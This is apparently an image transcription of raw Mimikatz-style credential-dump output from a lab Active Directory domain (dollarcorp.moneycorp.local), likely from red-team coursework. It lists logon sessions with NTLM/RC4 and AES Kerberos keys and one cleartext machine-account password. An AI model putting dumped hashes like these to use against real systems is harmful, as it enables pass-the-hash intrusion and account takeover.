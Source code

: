 ```powershell
         * Password : (null)
         * Key List :
           aes256_hmac       b607d794f87ca117a14353da0dbb6f27bbe9fed4f1ce1b810b43fbb9a2eab192
           rc4_hmac_nt       0878da540f45b31b974f73312c18e754
           rc4_hmac_old      0878da540f45b31b974f73312c18e754
           rc4_md4           0878da540f45b31b974f73312c18e754
           rc4_hmac_nt_exp   0878da540f45b31b974f73312c18e754
           rc4_hmac_old_exp  0878da540f45b31b974f73312c18e754

Authentication Id : 0 ; 6218420 (00000000:005ee2b4)
Session           : RemoteInteractive from 2
User Name         : mgmtadmin
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 1/11/2025 4:24:18 AM
SID               : S-1-5-21-719815819-3726368948-3917688648-1120

         * Username : mgmtadmin
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : (null)
         * Key List :
           aes256_hmac       902129307ec94942b00c6b9d866c67a2376f596bc9bdcf5f85ea83176f97c3aa
           rc4_hmac_nt       95e2cd7ff77379e34c6e46265e75d754
           rc4_hmac_old      95e2cd7ff77379e34c6e46265e75d754
           rc4_md4           95e2cd7ff77379e34c6e46265e75d754
           rc4_hmac_nt_exp   95e2cd7ff77379e34c6e46265e75d754
           rc4_hmac_old_exp  95e2cd7ff77379e34c6e46265e75d754

Authentication Id : 0 ; 21275 (00000000:0000531b)
Session           : Interactive from 0
User Name         : UMFD-0
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 1/10/2025 9:28:46 AM
SID               : S-1-5-96-0-0

         * Username : DCORP-MGMT$
         * Domain   : dollarcorp.moneycorp.local
         * Password : 4?PhChKP(`?yW`E8=VM2QI13O!i*3Q?WVB"X)=>Il3=AczJ0^T!X]r&:&yG41`*/$^4+EeZ07?zF2Z3`:[Jd*F/z_P`p6B9XH^g$*mXIQMXY(Sc?3\A6ICrX
         * Key List :
           aes256_hmac       c71f382ea61f80cab751aada32a477b7f9617f3b4a8628dc1c8757db5fdb5076
           aes128_hmac       b3b9f96ed137fb4c079dcfe2e23f7854
           rc4_hmac_nt       0878da540f45b31b974f73312c18e754
           rc4_hmac_old      0878da540f45b31b974f73312c18e754
           rc4_md4           0878da540f45b31b974f73312c18e754
           rc4_hmac_nt_exp   0878da540f45b31b974f73312c18e754
           rc4_hmac_old_exp  0878da540f45b31b974f73312c18e754

Authentication Id : 0 ; 21242 (00000000:000052fa)
Session           : Interactive from 1
User Name         : UMFD-1
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 1/10/2025 9:28:46 AM
SID               : S-1-5-96-0-1

         * Username : DCORP-MGMT$
         * Domain   : dollarcorp.moneycorp.local
         * Password : 4?PhChKP(`?yW`E8=VM2QI13O!i*3Q?WVB"X)=>Il3=AczJ0^T!X]r&:&yG41`*/$^4+EeZ07?zF2Z3`:[Jd*F/z_P`p6B9XH^g$*mXIQMXY(Sc?3\A6ICrX
         * Key List :
           aes256_hmac       c71f382ea61f80cab751aada32a477b7f9617f3b4a8628dc1c8757db5fdb5076
```